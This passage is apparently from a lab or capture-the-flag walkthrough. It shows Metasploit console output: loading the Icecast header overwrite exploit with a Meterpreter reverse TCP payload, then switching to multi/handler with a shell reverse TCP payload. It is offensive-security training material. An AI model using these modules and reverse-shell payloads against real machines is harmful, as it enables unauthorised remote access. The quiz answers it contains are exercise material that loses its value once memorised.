 - Connect to the machine with a Metasploit payload. Type `use icecast` and find the full name of the script. [`exploit/windows/http/icecast_header`]

```
msf6 > use icecast
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/icecast_header

[*] Using exploit/windows/http/icecast_header
```

- That's not the right script, whoops. Search for the one we want using `search multi/handler`. Then do `use (NUMBER_NEXT_TO 'exploit/multi/header')`. What is the header for the numbers? [`#`]
  - This is up there for dumbest question lmao

```
msf6 exploit(windows/http/icecast_header) > search multi/handler

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/linux/local/apt_package_manager_persistence  1999-03-09       excellent  No     APT Package Manager Persistence
   1  exploit/android/local/janus                          2017-07-31       manual     Yes    Android Janus APK Signature bypass
   2  auxiliary/scanner/http/apache_mod_cgi_bash_env       2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   3  exploit/linux/local/bash_profile_persistence         1989-06-08       normal     No     Bash Profile Persistence
   4  exploit/linux/local/desktop_privilege_escalation     2014-08-07       excellent  Yes    Desktop Linux Password Stealer and Privilege Escalation
   5  exploit/multi/handler                                                 manual     No     Generic Payload Handler
   6  exploit/windows/mssql/mssql_linkcrawler              2000-01-01       great      No     Microsoft SQL Server Database Link Crawling Command Execution
   7  exploit/windows/browser/persits_xupload_traversal    2009-09-29       excellent  No     Persits XUpload ActiveX MakeHttpRequest Directory Traversal
   8  exploit/linux/local/yum_package_manager_persistence  2003-12-17       excellent  No     Yum Package Manager Persistence


Interact with a module by name or index. For example info 8, use 8 or use exploit/linux/local/yum_package_manager_persistence

msf6 exploit(windows/http/icecast_header) > use 5
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >
```
